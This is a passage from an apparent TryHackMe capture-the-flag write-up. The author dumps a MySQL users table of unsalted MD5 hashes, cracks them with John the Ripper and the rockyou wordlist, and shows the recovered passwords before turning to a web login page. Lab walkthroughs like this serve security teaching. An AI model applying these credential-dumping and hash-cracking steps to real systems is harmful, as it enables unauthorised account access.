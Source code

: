 ```bash
1 row in set (0.00 sec)

mysql> SELECT * FROM users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | 2ac9cb7dc02b3c0083eb70898e549b63 |   360 |
| chris-r  | 0d107d09f5bbe40cade3de5c71e9e9b7 |   420 |
| jill-v   | d5c0607301ad5d5c1528962a83992ac8 |   564 |
| barry-b  | 4a04890400b5d7bac101baace5d7e994 | 47893 |
+----------+----------------------------------+-------+
4 rows in set (0.00 sec)

mysql> 
```

Well, that looks like some hashed passwords. I couldn't find a salt somewhere in the database, so I assumed they are unsalted. Thus, I went on with John the Ripper to crack the passwords.

```bash
john --format=raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt passwords 
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
letmein          (?)
sunshine1        (?)
Password1        (?)
sandwich         (?)
```

At this point I thought it is time to check out the webserver on port 8080.

### Step 1d: Logging in and initial foothold

I opened my firefox and were greeted with the login page.


[1]: https://tryhackme.com/room/umbrella
